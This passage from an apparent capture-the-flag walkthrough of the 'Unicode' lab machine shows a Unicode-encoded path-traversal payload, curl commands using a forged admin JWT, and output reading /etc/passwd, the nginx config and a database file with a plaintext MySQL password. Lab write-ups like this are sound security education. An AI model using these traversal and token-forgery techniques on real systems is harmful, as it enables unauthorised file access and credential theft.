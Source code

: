 Looks like it isn't processing. Now because this box was literally named Unicode, we might have to use Unicode characters to make this work. When we use this payload, the LFI works:

```
http://10.129.246.167/display/?page=%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (2747).png" alt=""><figcaption></figcaption></figure>

Now with an LFI, let's try to read the `nginx` configuration files since this was an Nginx server.&#x20;

```bash
$ curl -H 'Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE0LjEzL2p3a3MuanNvbiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.BTblX6M82Za_sh8hvEuUHdrArVmK-zLFphwUfpEB9Vuib6dfiZ5_RXqZYwmI-uo1NSl-pKXxB6shhB57oFG2pSH5AjU6Cxk6HqvgTBMNIdFjaoGdj4uyq3FgYuH8VN8PxUMXhf6MwkpBrd-hh-yJ32xRFV-Z_uIqTc1Rue5ImLvTVAQ1434ZUjCkKzsMUKPa-PI8pXLWmR2MGpvRBbUd7xSth2tVOpgnK9u0h09xh-2kE3YjopdxeNAfokXJUshfL5tUX_BTHY0-10KvDb3amfWTGUoRruyUSTdWm5-H1PAtbvOJ3-Uo_EkwVPIbwEr3g51yR-ZvAMfLkInG-LQNiw' http://10.129.246.167/display/?page=%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/etc/nginx/sites-available/default
limit_req_zone $binary_remote_addr zone=mylimit:10m rate=800r/s;

server{
#Change the Webroot from /home/code/app/ to /var/www/html/
#change the user password from db.yaml
        listen 80;
        error_page 503 /rate-limited/;
        location / {
                limit_req zone=mylimit;
                proxy_pass http://localhost:8000;
                include /etc/nginx/proxy_params;
                proxy_redirect off;
        }
        location /static/{
                alias /home/code/coder/static/styles/;
        }
}
```

`db.yaml`? This is located within `/home/code/coder/db.yaml`.&#x20;

```bash
$ curl -H 'Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE0LjEzL2p3a3MuanNvbiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.BTblX6M82Za_sh8hvEuUHdrArVmK-zLFphwUfpEB9Vuib6dfiZ5_RXqZYwmI-uo1NSl-pKXxB6shhB57oFG2pSH5AjU6Cxk6HqvgTBMNIdFjaoGdj4uyq3FgYuH8VN8PxUMXhf6MwkpBrd-hh-yJ32xRFV-Z_uIqTc1Rue5ImLvTVAQ1434ZUjCkKzsMUKPa-PI8pXLWmR2MGpvRBbUd7xSth2tVOpgnK9u0h09xh-2kE3YjopdxeNAfokXJUshfL5tUX_BTHY0-10KvDb3amfWTGUoRruyUSTdWm5-H1PAtbvOJ3-Uo_EkwVPIbwEr3g51yR-ZvAMfLkInG-LQNiw' http://10.129.246.167/display/?page=%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/home/code/coder/db.yaml
mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"
```
